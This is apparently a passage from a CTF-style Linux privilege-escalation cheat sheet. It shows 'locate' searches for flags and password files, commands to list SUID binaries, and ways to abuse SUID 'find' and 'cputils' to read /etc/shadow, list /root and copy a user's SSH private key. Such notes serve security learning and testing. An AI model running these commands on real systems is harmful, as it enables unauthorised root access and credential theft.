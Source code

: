 If you want to find more faster, use **"locate"** command.  
It searches from the database on the system. It's faster than "find" but the found information is older.

```sh
locate data
locate flag
locate flag*.txt
locate *flag*
locate password
locate *password*
locate *save*
locate *save.txt
locate user.txt
locate user*
locate *user*
locate root.txt
locate *root*
locate .db
locate .txt
```

<br />

## SUID (Set User ID)

It allows users to run an executable as root privilege.

```sh
# Option 1
find / -type f -perm -04000 2>/dev/null
# Option 2
find / -type f -perm -u=s 2>/dev/null
# Option 3
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

If you'll get some SUID files, research the information of them using **[GTFOBins](https://gtfobins.github.io/)**.

### Find

If the "find" command is set as SUID, you can execute some commands as root privileges.

```sh
find ./ -exec "whoami" \;
find /etc/shadow -exec cat {} \;
find /root -exec ls -al {} \;
```

### Cputils

If the "cputils" is set as SUID, you can copy the sensitive file to another one. 

```sh
cputils

Enter the name of source file: /home/<user>/.ssh/id_rsa
Enter the name of target file: /tmp/id_rsa
```
